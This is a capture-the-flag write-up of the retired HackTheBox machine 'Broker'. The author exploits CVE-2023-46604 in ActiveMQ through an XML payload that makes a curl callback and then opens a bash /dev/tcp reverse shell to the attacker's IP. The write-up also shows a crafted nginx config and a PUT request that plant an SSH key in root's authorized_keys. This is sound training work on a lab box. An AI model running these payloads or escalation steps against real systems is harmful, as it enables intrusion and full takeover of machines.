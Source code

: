 Broker is a retired machine on HTB Labs, based on a **Linux** server and an **`ActiveMQRealm`** web-application. We use a known **CVE** for this service, sending an encoded payload to the message broker, forcing it to **execute arbitrary code**. We setup a local **`nc`-listener** and force the server to create a reverse shell. With a foothold on the machine, we find that we're allowed to **`sudo nginx`**. We use this to add a **public `ssh`-key** to the root folder and gain access as `root`.

## Reconnaissance

We receive an IP address `10.10.11.243` and proceed to explore the box. We start with an `nmap` scan which enumerates commonly used ports and pings them for the services running on them.

```bash
nmap 10.10.11.243 -sC -sV -oN nmap/initial.out
```
We get the following results:
```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http        nginx 1.18.0 (Ubuntu)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
8080/tcp open  http-proxy?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
It tells us that this is a Linux machine (though we already knew this). Furthermore, we have:
- Port 22 with SSH running
- Port 80 with an nginx HTTP server runnign an ActiveMQRealm webapplication
- Port 8080 which seems to be a proxy HTTP

Since port 80 is open, we navigate to it using our browser: `http://10.10.11.243:80`. We get greeted with a login page from the ActiveMQRealm. A quick google search tells us the default credentials are `admin:admin` and this indeed gets us logged in.

Poking around a bit and also reading up on ActiveMQRealm on Google, we find that it is a message broker system, that operates on port 61616. After reading this, we start an additional `nmap` scan for this specific port.

```bash
nmap 10.10.11.243 -sC -sV -p61616 -oN nmap/61616.out
```

We get the following output:
```
PORT      STATE SERVICE  VERSION
61616/tcp open  apachemq ActiveMQ OpenWire transport
| fingerprint-strings:
|   NULL:
|     ActiveMQ
<...SNIP...>
|_    5.15.15
```
Which indeed confirms our earlier findings. Furthermore, it also tells us that the version of ActiveMQ running is `5.15.15`. Although we were able to find this information after logging in, it's good to know that even unauthenticated we still would have found it using `nmap`.

## User access

Now that we have some information about what this box is running, we can try to get an initial foothold. We search for `ActiveMQ 5.15.15 exploit` on Google and find [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604) which is a vulnerability in the Jave OpenWire Protocol used in ActiveMQ. Summarized, we can send a message to the broker and have it create an object of the `Throwable` class with a message. We do this by supplying a `class` and `message` string. However, these strings are not validated; more specifically, it's not checked whether the `class` string actually contains a `Throwable` class. We can supply an arbitrary `class` and it will create it. The exploit then, is to have it create a `org.springframework.context.support.ClassPathXmlApplicationContext` class, which allows configuration of a Spring application via an XML file, which can be on a remote URL. This XML file can then be used to call arbitrary methods with arbitrary parameters. This ofcourse is Remote Code Execution. A more extensive explanation can be found [here](https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis). 

We find [a script](https://github.com/X1r0z/ActiveMQ-RCE) written in `Go` that exploits this vulnerability. It sends the encoded payload to the message broker on port `61616`, which forces the server to load the included xml file from our local host. For that we need to start an HTTP server in the same directory:
```bash
python -m http.server
# starts a server on port 8000
```
In this xml file is the setup for this remote code execution, where we can insert our desired command. First we just want to test whether we do indeed get code execution, by having the server ping our host.

```xml
# file: poc.xml
<..SNIP..>

<value>bash</value>
<value>-c</value>
<value>curl http://{my_ip}:1234</

<..SNIP..>
```

For which of course we have a `netcat` listener.
```bash
nc -lvnp 1234
```

We execute the exploit.

```bash
go run main.go -i http://10.10.11.243 -u http://{my_ip}:8000/poc.xml
```

We then see that we:
1. Succesfully receive a GET request on our HTTP python server for the `poc.xml` file.
2. Also receive a GET request on our `netcat` server, meaning we indeed have remote code execution.

Now, we want to use this code execution to set up a reverse shell. We modify the payload in `poc.xml` with a standard reverse shell commmand:

```xml
<..SNIP..>

<value>bash</value>
<value>-c</value>
<value>bash -i &gt;&amp; /dev/tcp/10.10.14.241/1235 0&gt;&amp;1</

<..SNIP..>
```

Notice here, that we use `&gt;` and `&amp;` instead of `>` and `&`. This is because in XML the last two symbols have special meanings, so we need to escape them. (This had me frustrated for a long time; the reverse shell does not work without it but there is no indication for the problem).

We execute the exploit again and indeed find ourselves with a reverse shell. Running `id` tells us we have a shell as the `activemq` user. Navigating to their home directory gives us access to the `user.txt` flag, meaning we have officially powned the user. Nice!

## Root access
Now we'll want to escalate our privileges to the root user, so we can get the final root flag. One of the first checks I always do is checking the `sudo` permissions of this user.
```bash
sudo -l
```
We find that we are allowed to run the `nginx` command as root without supplying a password. From my experience in HTB Labs until now, I'm pretty sure this is the route they intend us to follow. 

(Here, I was stuck for quite a while. I found a few guides on privilege escalation using `nginx`, but could not get any of them to work. In the end, I had to peek a bit at another write-up of this box. The solution used was not one I found at all when checking the internet)

We can exploit `nginx` running as root as follows: We craft our own `nginx` config file and configure it such that it runs in the `/` root folder of the machine. We allow PUT requests through the server, which can be written to the root folder since nginx is running as root. We upload our public `ssh` key file to the `/root/.ssh/authorized_keys/`, such that we can login as the root user using `ssh`

Here is the config file for the `nginx` server
```
user root;
worker_processes 4;
pid /tmp/nginx.pid;

events {
    worker_connections 768;
}

http {
    server {
        listen 1906;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```
We have it run an HTTP server on port 1906 (arbitrary) and have the `/` folder as root. We allow PUT requests using `dav_methods PUT;`. We can check whether the config file is valid using the `-t` parameter:
```bash
sudo nginx -p ./ -t -c config
```
(`-p ./` specifies that the config filepath prefix is just `./`, normally configs are located in `/etc/nginx`)

We then start the server.
```bash
sudo nginx -p ./ -c config
```

Finally, we create an ssh keypair (`root`,`root.pub`) and upload it to the keys directory of the target.
```bash
curl -X PUT http://10.10.11.243:1906/root/.ssh/authorized_keys/ -d ($cat root.pub)
```

Now, using the related private key, we can login as the root user, using `ssh`. 
```bash
ssh root@10.10.11.243 -i root
```
Once logged in, we `cat` the content of the `root.txt` flag and have officially hacked this box!
